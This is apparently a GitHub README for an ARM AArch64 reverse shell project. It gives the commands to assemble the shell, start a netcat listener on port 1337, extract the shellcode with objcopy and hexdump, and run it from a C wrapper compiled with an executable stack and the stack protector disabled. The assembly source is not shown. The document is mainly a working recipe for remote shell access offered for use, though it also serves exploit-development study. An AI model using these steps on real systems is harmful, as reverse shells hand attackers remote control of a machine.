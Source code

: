 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

> Note 💡
I am still fixing the ASM code with the prompt to be fully functional and cooperative with the wrapper code. For some reason, I am getting an unbelievable amount of null-bytes within it upon extracting the shellcode. That doesn't appear to happen with `arm-revshell.s`. I will be solving this soon.
> To do: Fix null-byte situation.

## Custom Prompt PoC
<img width="559" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/f7c42cdd-cb4c-43df-b4d6-13064b5e518e">

## Wrapper Code PoC
<img width="513" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/5a54251b-5c07-4ef1-bd81-5582e2f9e2d9">

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell arm-revshell.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


